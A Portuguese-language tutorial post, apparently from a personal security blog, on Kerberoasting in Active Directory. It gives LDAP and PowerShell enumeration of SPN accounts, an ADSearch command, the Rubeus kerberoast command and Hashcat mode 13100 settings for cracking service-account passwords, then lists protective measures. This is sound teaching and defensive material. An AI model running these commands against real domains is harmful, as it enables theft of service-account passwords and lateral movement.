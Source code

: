 ```yaml
---
title: "Kerberoasting"
excerpt: "Teoria e prática sobre Kerberoasting."
categories:
  - Hacking
tags:
  - Kerberoasting
  - Active Directory
  - SPN
  - LDAP
  - ADSearch
  - Rubeus
  - Hahscat

toc: true
---
```


## Teoria

Kerberoasting explora o Ticket Granting Service (TGS), que é usado para a autenticação em um serviço através do protocolo Kerberos.

O ataque envolve a solicitação de um ticket de serviço arbitrário para cada nome principal de serviço (Service Principal Name - SPN) no domínio e a tentativa de quebra offline da senha através de força bruta.

Caso a conta de serviço seja de máquina (`MACHINENAME$`), será impossível de realizar, por causa das senhas complexas e geradas aleatoriamente, porém, alguns serviços são executados por contas de um usuário normal (o usuário criou a senha) e neste caso o ataque é efetivo.

**OBS: Com a senha, a movimentação lateral se torna possível.**

![Untitled](https://github.com/BieAnimaton/BieAnimaton/assets/52220244/e264e012-a56a-4da1-9725-6f4a0ebfc873)

A Mônica está associada ao SPN `MSSQLSvc/monica.com`.

## Extração de Contas com SPN através do LDAP

Pode-se realizar um filtro LDAP para extrair as contas que possuem mais de um SPN:

```powershell
(objectCategory=person)(objectClass=user)(servicePrincipalName=*)
```

![Untitled](https://github.com/BieAnimaton/BieAnimaton/assets/52220244/19cf4a23-3478-416a-9cd5-8b145caa6b3c)

![Untitled 1](https://github.com/BieAnimaton/BieAnimaton/assets/52220244/e29d492f-13c9-49e3-8305-08ff57c64221)

## Extração de Contas com SPN através do Powershell

O mesmo filtro será usado através de um script poweshell.

```powershell
$search = New-Object DirectoryServices.DirectorySearcher([ADSI]"")
$search.filter = "(&(objectCategory=person)(objectClass=user)(servicePrincipalName=*))"
$results = $search.Findall()
foreach($result in $results)
{
	$userEntry = $result.GetDirectoryEntry()
	Write-host "User : " $userEntry.name "(" $userEntry.distinguishedName ")"
	Write-host "SPNs"        
	foreach($SPN in $userEntry.servicePrincipalName)
	{
		$SPN       
	}
	Write-host ""
}
```

![Untitled 2](https://github.com/BieAnimaton/BieAnimaton/assets/52220244/2a55426a-72bd-4aa2-9b5a-2efabc551fb1)

## Extração de Contas com SPN através do ADSearch

```powershell
ADSearch.exe --search "(&(objectCategory=person)(objectClass=user)(servicePrincipalName=*))" --attributes cn,distinguishedname,samaccountname
```

![Untitled 3](https://github.com/BieAnimaton/BieAnimaton/assets/52220244/a6b2135b-26f4-464e-9e71-282d67cbe31e)

## Ataque

O Kerberoast pode ser realizado através do Rubeus:

```powershell
Rubeus.exe kerberoast /nowrap
```

- A opção “nowrap” remove a quebra de linha (não obrigatório).

![Untitled 3](https://github.com/BieAnimaton/BieAnimaton/assets/52220244/191c83c5-414c-4d3d-99f0-37de737e2ff5)

## Quebrando a Senha

O Hashcat será usado para quebrar a senha.

![Untitled 4](https://github.com/BieAnimaton/BieAnimaton/assets/52220244/bd5d1f51-f60e-46ff-8fbd-8d207321a841)

- A configuração “-m 13100” é para quebrar senhas Kerberos 5 TGS-REP (etype 23).
- O arquivo “monraybrandt-kerberoast” possui o hash encontrado.
- O arquivo “pass” contém as possíveis senhas.

![Untitled 5](https://github.com/BieAnimaton/BieAnimaton/assets/52220244/c8b83247-89f9-4a34-bf76-98d34121fb17)

## Medidas de Proteção

- Aplicar políticas de senhas fortes (tamanho 10 ou mais, números, letras maiúsculas e minúsculas e caracteres especiais) para proteção.
- Remover e evitar SPN em contas de usuário.
- Caso realmente seja necessário, usar o Microsoft Managed Service Accounts (MSA).